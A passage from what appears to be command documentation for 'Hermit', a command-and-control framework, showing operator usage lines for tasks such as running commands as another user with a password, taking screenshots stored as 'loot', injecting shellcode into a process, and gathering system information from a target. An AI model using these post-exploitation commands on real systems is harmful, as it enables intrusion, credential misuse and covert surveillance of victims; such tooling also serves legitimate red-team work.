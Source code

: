 To remove a directory recursively, add `-r` flag.

```sh
Hermit [agent-abcd] > rm -r example_dir
```

## `rportfwd`

Under development.

## `runas`

Runs a command as another user.

```sh
Hermit [agent-abcd] > runas -u Administrator -p 'Password123' notepad.exe
```

## `screenshot`

Takes a screenshot and save it as PNG file.

```sh
Hermit [agent-abcd] > screenshot
```

After successful, the captured image file is saved under `$HOME/.hermit/server/agents/agent-<name>/loot/screenshots` folder.

## `shellcode`

Injects shellcode to specified process.

```sh
# -p: target process ID
# -f: a shellcode file path
Hermit [agent-abcd] > shellcode -p 1234 -f /path/to/shellcode.bin
```

To see running processes and PIDs, use `ps ls` task.

## `sleep`

Changes the Sleep time (N seconds).

```sh
Hermit [agent-abcd] > sleep 10
```

## `sysinfo`

Retrieves the system information on a target machine.

```sh
Hermit [agent-abcd] > sysinfo
```
